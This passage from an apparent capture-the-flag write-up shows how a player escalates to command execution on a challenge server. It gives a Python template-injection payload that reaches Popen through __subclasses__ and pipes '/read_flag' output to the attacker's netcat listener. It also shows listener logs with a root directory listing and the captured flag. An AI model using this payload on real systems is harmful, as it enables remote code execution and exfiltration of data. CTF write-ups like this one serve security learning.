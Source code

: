 I received successful result.

```
# nc -lvp 10101
Listening on [0.0.0.0] (family 0, port 10101)
Connection from 183.91.251.163 56417 received!
app.py
db.db
```

Now you can get flag by encrypt below query.

**Query :** m=p&l=${\([i for i in ().\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_() if i.\_\_name\_\_ == 'Popen']\)\[0\]\('/read_flag | nc \[SERVER\] \[ip\]',shell=1\)}

```
# nc -lvp 10101
Listening on [0.0.0.0] (family 0, port 10101)
Connection from ec2-13-115-255-46.ap-northeast-1.compute.amazonaws.com 46028 received!
total 104
drwxr-xr-x  23 root root  4096 Oct 16 08:18 .
drwxr-xr-x  23 root root  4096 Oct 16 08:18 ..
drwxr-xr-x   2 root root  4096 Sep 12 15:59 bin
drwxr-xr-x   3 root root  4096 Oct 10 06:46 boot
drwxr-xr-x  15 root root  2980 Oct  8 18:13 dev
drwxr-xr-x  91 root root  4096 Oct 11 16:05 etc
-r--------   1 root root    47 Oct 16 08:15 flag
drwxr-xr-x   4 root root  4096 Oct 11 16:02 home
lrwxrwxrwx   1 root root    31 Oct 10 06:46 initrd.img -> boot/initrd.img-4.15.0-1023-aws
lrwxrwxrwx   1 root root    31 Sep 12 16:16 initrd.img.old -> boot/initrd.img-4.15.0-1021-aws
drwxr-xr-x  20 root root  4096 Oct 11 15:27 lib
drwxr-xr-x   2 root root  4096 Sep 12 15:56 lib64
drwx------   2 root root 16384 Sep 12 16:10 lost+found
drwxr-xr-x   2 root root  4096 Sep 12 15:55 media
drwxr-xr-x   2 root root  4096 Sep 12 15:55 mnt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 opt
dr-xr-xr-x 123 root root     0 Oct  8 18:13 proc
-rwsr-sr-x   1 root root  8568 Oct 16 08:18 read_flag
drwx------   4 root root  4096 Oct 16 08:18 root
drwxr-xr-x  26 root root  1000 Oct 23 10:54 run
drwxr-xr-x   2 root root  4096 Oct 10 06:46 sbin
drwxr-xr-x   5 root root  4096 Oct  8 18:13 snap
drwxr-xr-x   2 root root  4096 Sep 12 15:55 srv
dr-xr-xr-x  13 root root     0 Oct 16 08:18 sys
drwxrwxrwt  12 root root  4096 Oct 23 11:03 tmp
drwxr-xr-x  10 root root  4096 Sep 12 15:55 usr
drwxr-xr-x  14 root root  4096 Oct 11 15:58 var
lrwxrwxrwx   1 root root    28 Oct 10 06:46 vmlinuz -> boot/vmlinuz-4.15.0-1023-aws
lrwxrwxrwx   1 root root    28 Sep 12 16:16 vmlinuz.old -> boot/vmlinuz-4.15.0-1021-aws
# nc -lvp 10101
Listening on [0.0.0.0] (family 0, port 10101)
Connection from ec2-13-115-255-46.ap-northeast-1.compute.amazonaws.com 46042 received!
hitcon{Fr0m_SQL_Injecti0n_t0_Shell_1s_C00L!!!}
```
